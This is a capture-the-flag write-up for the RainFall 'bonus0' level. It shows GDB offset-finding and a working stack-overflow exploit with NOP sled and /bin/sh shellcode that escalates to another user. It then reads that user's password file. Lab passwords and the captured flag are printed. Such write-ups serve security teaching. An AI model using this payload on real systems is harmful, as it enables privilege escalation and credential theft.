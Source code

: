 Login as `bonus0`.
```shell
┌──$ [~/42/2021/rainfall/level9]
└─>  ssh 192.168.0.39 -p 4242 -l bonus0
bonus0@192.168.0.39's password: f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
A `SUID` executable is located in the home directory.
```shell
bonus0@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus1 users 5566 Mar  6  2016 bonus0
```
Program segfaults when receive input of 20 A's.
```shell
bonus0@RainFall:~$ ./bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB�� BBBBBBBBBBBBBBBBBBBB��
Segmentation fault (core dumped)
```
Examine same scenario with GDB.
```gdb
bonus0@RainFall:~$ gdb ./bonus0
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB�� BBBBBBBBBBBBBBBBBBBB��

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
Seems that EIP was overwritten with `BBBB`. Use pattern as second string to find offset.
```gdb
(gdb) break *main+39
Breakpoint 1 at 0x80485cb
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
AAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa�� Aa0Aa1Aa2Aa3Aa4Aa5Aa��

Breakpoint 1, 0x080485cb in main ()
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```
Decode bytes to find out which part of second string shoud be replaced with an address.
```python
>>> "41336141".decode('hex')
'A3aA'
```
Remember that it should be reversed as it lays differently on memory. So the result is Aa3A rather that A3aA.
Second input should be `Aa0Aa1Aa2<memory_address>a4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A`
Now, a memory address of first string should be find.
```gdb
(gdb) set disassembly-flavor intel
(gdb) break *p+45
Breakpoint 1 at 0x80484e1
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -

Breakpoint 1, 0x080484e1 in p ()
(gdb) disassemble
Dump of assembler code for function p:
   [...]
   0x080484c8 <+20>:	mov    DWORD PTR [esp+0x8],0x1000   # 4096
   0x080484d0 <+28>:	lea    eax,[ebp-0x1008]             # buff
   0x080484d6 <+34>:	mov    DWORD PTR [esp+0x4],eax
   0x080484da <+38>:	mov    DWORD PTR [esp],0x0
=> 0x080484e1 <+45>:	call   0x8048380 <read@plt>         # read(0, buff, 4096)
   [...]
End of assembler dump.
(gdb) p/x $eax
$1 = 0xbfffe680
(gdb) break *main+39
Breakpoint 2 at 0x80485cb
(gdb) continue
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -

Breakpoint 1, 0x080484e1 in p ()
(gdb) continue
Continuing.
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
AAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa�� Aa0Aa1Aa2Aa3Aa4Aa5Aa��

Breakpoint 2, 0x080485cb in main ()
(gdb) x/32wx 0xbfffe680
0xbfffe680:	0x41306141	0x61413161	0x33614132	0x41346141
0xbfffe690:	0x61413561	0x37614136	0x41386141	0x62413961
0xbfffe6a0:	0x31624130	0x41326241	0x62413362	0x35624134
0xbfffe6b0:	0x41366241	0x62413762	0x39624138	0x41306341
0xbfffe6c0:	0x63413163	0x33634132	0x41346341	0x63413563
0xbfffe6d0:	0x37634136	0x41386341	0x64413963	0x31644130
0xbfffe6e0:	0x41326441	0x41414100	0x41414141	0x41414141
0xbfffe6f0:	0x41414141	0x41414141	0x41414141	0x41414141
(gdb) x/1wx 0xbfffe689
0xbfffe689:	0x41336141
```
So, as it read at most 4096 bytes from stdin, a shell code can be placed as first string preceded by `NOP`.
```shell
bonus0@RainFall:~$ (python -c "print('\x90'*100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')"; python -c "import struct; print('Aa0Aa1Aa2' + struct.pack('I', 0xbfffe6c0) + 'a4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3')"; cat -) | /home/user/bonus0/bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2����a4Aa5Aa�� Aa0Aa1Aa2����a4Aa5Aa��
id
uid=2010(bonus0) gid=2010(bonus0) euid=2011(bonus1) egid=100(users) groups=2011(bonus1),100(users),2010(bonus0)
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
